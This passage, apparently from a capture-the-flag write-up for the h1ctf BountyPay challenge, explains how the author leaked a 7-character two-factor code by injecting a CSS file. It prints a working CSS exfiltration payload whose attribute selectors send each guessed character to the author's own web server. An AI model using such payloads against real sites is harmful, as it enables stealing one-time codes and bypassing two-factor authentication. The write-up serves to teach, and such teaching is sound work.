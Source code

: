 And it seemed to load a CSS (https://www.bountypay.h1ctf.com/css/uni_2fa_style.css) that is used in the first screen:
```
<input type="hidden" name="app_style" value="https://www.bountypay.h1ctf.com/css/uni_2fa_style.css">
```

Honestly I didn't really know what to think other than I would have likely try to load a CSS file that would try to exfiltrate the right code in less than 2 minutes!
That's when collaboration was on the rescue again to help me create a valid CSS for the purpose.

Also, while searching for CSS exfiltration on Google I found this great article by @d0nut which was very helpful:
- `https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b`

For now I knew that the code was of **length 7**.
{F856481}

And that I had to know which was the valid code value (the right one was **code_1**, **code_2**, etc).

So at the end I used this CSS file and loaded that on my web server then passing that URL to the previous request.

In case the code character was valid I would see on my logs which was that character and at which position must be inserted. 
Maybe this was not so elegant...but it worked!

```
/**
Template for the UNI 2FA App
 */

body {
    background-color: #FF66FF;
}

div.branding {
    height:80px;
    width:80px;
    margin:20px auto 40px auto;
    background-position:center center;
    background-repeat: no-repeat;
    background-size: cover;
}
input[value=A]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=A"); }
input[value=B]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=B"); }
input[value=C]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=C"); }
input[value=D]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=D"); }
input[value=E]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=E"); }
input[value=F]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=F"); }
input[value=G]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=G"); }
input[value=H]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=H"); }
input[value=I]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=I"); }
input[value=J]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=J"); }
input[value=K]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=K"); }
input[value=L]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=L"); }
input[value=M]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=M"); }
input[value=N]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=N"); }
input[value=O]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=O"); }
input[value=P]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=P"); }
input[value=Q]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=Q"); }
input[value=R]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=R"); }
input[value=S]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=S"); }
input[value=T]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=T"); }
input[value=U]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=U"); }
input[value=V]:nth-of-type(1) { background-image: url("https://mywebserver.com/data?1=V"); }
```